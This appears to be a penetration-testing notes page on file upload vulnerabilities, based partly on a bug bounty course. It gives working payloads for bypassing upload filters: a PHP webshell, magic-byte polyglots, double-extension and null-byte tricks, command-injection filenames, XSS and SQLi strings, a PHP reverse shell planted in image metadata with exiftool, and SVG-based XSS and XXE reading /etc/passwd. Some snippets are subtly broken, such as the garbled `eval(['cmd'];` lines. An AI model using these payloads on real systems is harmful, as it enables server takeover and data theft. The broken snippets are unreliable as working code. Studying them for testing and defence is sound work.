---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# File Uploads


A **File Upload** vulnerability occurs when a web application does not properly validate or restrict the files users can upload. This allows attackers to upload malicious files which can then be executed on the server and result in unauthorized access, data breaches, defacement of websites, or further compromise of the server and its resources.


## Absent Validation

Enumerate the technologies used on the server -> upload a same-language webshell. &#x20;



```bash
whatweb <URL>
```




```bash
ffuf -u <URL>/index.FUZZ -w /usr/share/seclists/Discovery/Web-Content/web-extensions.txt:FUZZ -c -ac
```




## Filters

### Client-side Filters

> _The example below is based on TCM's_ [_Practical Bug Bounty_](https://academy.tcm-sec.com/p/practical-bug-bounty) _course._

We should start by using the application as intended in order to understand how it works. In doing so, the uploads directory is revealed (`/uploads`) as well as some extension filters (Figure 1).

<figure><figcaption><p>Figure 1: Using the application's functionality as intended.</p></figcaption></figure>

If we inspect the front-end code, we will notice that the file validation check happens on the client-side (Figure 2).

<figure><figcaption><p>Figure 2: Inspecting the application's source code.</p></figcaption></figure>

We can try bypassing this check and upload a [webshell](../../tools/shells/webshells.md) by intercepting the request before it reaches the server, but after passing the above `validateFileInput` check (Figure 3).

```php
<?php system($_GET['cmd']); ?>
```

<figure><figcaption><p>Figure 3: Bypassing the client-side filter and achieving RCE.</p></figcaption></figure>

Modify the `accept` HTML attribute, or any other, as required using the browser's developer tools.

<figure><figcaption><p>Figure 1: Modifying front-end validation.</p></figcaption></figure>

### Server-side Filters

#### Type Filters

1. [MIME type](https://developer.mozilla.org/en-US/docs/Glossary/MIME) -> indicates that nature and format of a file.
2. [`Content-Type`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Type) header -> tells the receiving machine what type of data to expect and how to interpret it.&#x20;

If the server implicitly trusts the `Content-Type` header's value and no further validation is performed, then by changing its value to an expected content type before it reaches the server will result in bypassing this filter (Figure 2 & 3).

<figure><figcaption><p>Figure 2: The <code>text/x-python</code> content type is not allowed.</p></figcaption></figure>

<figure><figcaption><p>Figure 3: Changing the header to <code>image/jpeg</code> type bypassed the filter.</p></figcaption></figure>

In addition to the `Content-Type` header's value, the server might actually check the file's content. In this case, **polyglot files**, i.e., files that different application interpret in different ways, can be created to trick the application. This can be achieve by modifying the file's **magic bytes**, aka _headers_ or _signatures_.&#x20;

For instance, JPG's [magic bytes](https://en.wikipedia.org/wiki/List\_of\_file\_signatures) are `FFD8 FFE0` (Figure 4).

<figure><figcaption><p>Figure 4: Checking the magic bytes of a JPG image.</p></figcaption></figure>

The operating system checks the above sequence and recognizes this file as a JPEG image.


```bash
file --mime-type google_logo.jpg
google_logo.jpg: image/jpeg
```


We can add this sequence in front of a malicious non-JPEG file to trick the OS/application in thinking that this is really a JPEG file.

```bash
# check file's content
cat webshell.php
<?php eval(['cmd'];?>
# check file's type
file --mime-type webshell.php
webshell.php: text/x-php
# append JPG's magic bytes to the php code
echo -e "\xFF\xD8\xFF\xE0<?php eval($_GET['cmd'];?>" > polyglot.php
# check file's content
cat polyglot.php
����<?php eval(['cmd'];?>
# check file's type
file polyglot.php
polyglot.php: JPEG image data
```

This can be also be done using tools such as [`hexeditor`](https://www.rogoyski.com/adam/programs/hexedit/). We first need to add the required number of bytes at the start of the file, and then modify them accordingly (Figure 5 & 6).

```bash
# added 4 bytes at the start of the file
cat webshell.php
AAAA<?php eval(['cmd'];?>
# open file in hexeditor
hexeditor webshell.php
```

<figure><figcaption><p>Figure 5: Opening the file with hexeditor.</p></figcaption></figure>

<figure><figcaption><p>Figure 6: Modifying the file's magic bytes.</p></figcaption></figure>

#### Blacklists/Whitelists

Find out which extensions are allowed:

1. Upload an allowed file and capture the request.
2. Modify the file extension and save the request as file (Figure 7).
3. Fuzz it with [fuff](../../tools/web/dirbusting/fuff.md) (Figure 8).

<figure><figcaption><p>Figure 7: Modifying the HTTP request and exporting it as a file.</p></figcaption></figure>

<figure><figcaption><p>Figure 8: Fuzzing the file extensions with ffuf.</p></figcaption></figure>

Some filters might **only check if the extension exists** within the file name, which can be bypassed by renaming the file to `webshell.jpg.phar` (**double extension method**).  Others, might require for the file name to end with an allowed extension so we will have to switche the extensions over, i.e.,  `webshell.phar.jpg` (Figure 9) (**reverse double extension method**).

<figure><figcaption><p>Figure 9: Bypassing the extension filter using double extensions.</p></figcaption></figure>

In case we can use the **reverse double extension** method, the file will be uploaed but it might not be able to execute. Instead it can be served as a direct download (Figure 10) or as a page (Figure 11).

<figure><figcaption><p>Figure 10: The webshell script treated as a direct download.</p></figcaption></figure>

<figure><figcaption><p>Figure 11: The webshell script served as a file.</p></figcaption></figure>

This can be potentially bypassed by a **null byte injection**. The null byte (`\x00`) marks the end of a string in various programming languages. By **injecting a URL-encoded null byte** after the script's extension (`.php`) (Figure 12), the server might interpret it as the end of the string and ignore what comes after it, in this case, the `.png` extension. However, when the server later processes the file, it could read it as a PHP script and execute it.

<figure><figcaption><p>Figure 12: Injecting a null byte in the file's name.</p></figcaption></figure>

To access the file only the part before the null byte might be called, i.e., `revshell.php`.

## Attacks

### Filename Injection

When the uploaded file name is refected on the page. If the OS moves the file with a command such as `mv <file> /tmp`, then we achieve RCE.

```
# command execution
file$(whoami).jpg
file`whoami`.jpg
file.jpg||whoami
```

Similarly, an XSS or SQLi attack can be performed.

```
# xss
<script>alert(window.origin);</script>
# sql
file';select+sleep(5);--.jpg
```

### Uploads Directory

* Check source code after uploading a file.
* Fuzz for an `/uploads` directory, and then for the file itself.
* Forcing error messages that might disclose the uploads directory:
  * Uploading a file that already exists or sending 2 identical requests simultaneously.
  * Uploading a file with a very (very) long name.

### Metadata Injection

If the web application displays the image's metadata, a payload can be injected in one of the metadata's fields. When the image's metadata is displayed, the payload will be triggered.&#x20;

```bash
# injecting an XSS payload into the Comment field
exiftool -Comment=' ">' image.jpg
```


```bash
# injecting a reverse shell payload into the Document Name field
exiftool -DocumentName='/*<?php /**/ error_reporting(0); $ip = "127.0.0.1"; $port = 4444; if (($f = "stream_socket_client") && is_callable($f)) { $s = $f("tcp://{$ip}:{$port}"); $s_type = "stream"; } elseif (($f = "fsockopen") && is_callable($f)) { $s = $f($ip, $port); $s_type = "stream"; } elseif (($f = "socket_create") && is_callable($f)) { $s = $f(AF_INET, SOCK_STREAM, SOL_TCP); $res = @socket_connect($s, $ip, $port); if (!$res) { die(); } $s_type = "socket"; } else { die("no socket funcs"); } if (!$s) { die("no socket"); } switch ($s_type) { case "stream": $len = fread($s, 4); break; case "socket": $len = socket_read($s, 4); break; } if (!$len) { die(); } $a = unpack("Nlen", $len); $len = $a["len"]; $b = ""; while (strlen($b) < $len) { switch ($s_type) { case "stream": $b .= fread($s, $len-strlen($b)); break; case "socket": $b .= socket_read($s, $len-strlen($b)); break; } } $GLOBALS["msgsock"] = $s; $GLOBALS["msgsock_type"] = $s_type; eval($b); die(); __halt_compiler();' duck.jpg
     1 image files updated
```


If the metadata is not directly displayed, chaning the MIME-type to `text/html`, might cause the file to be treated as an HTML document and directly trigger the payload.

### SVGs

We can include XSS payloads within the XML data of SVG images. Once the image is displayed, the payload will be triggered.


```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
    <rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
    <script type="text/javascript">alert(window.origin);</script>
</svg>
```


We can also perform [XXE](injections/xxei.md) attacks using SVG images. This can be used for reading the web application's source files.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```


```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<svg>&xxe;</svg>
```


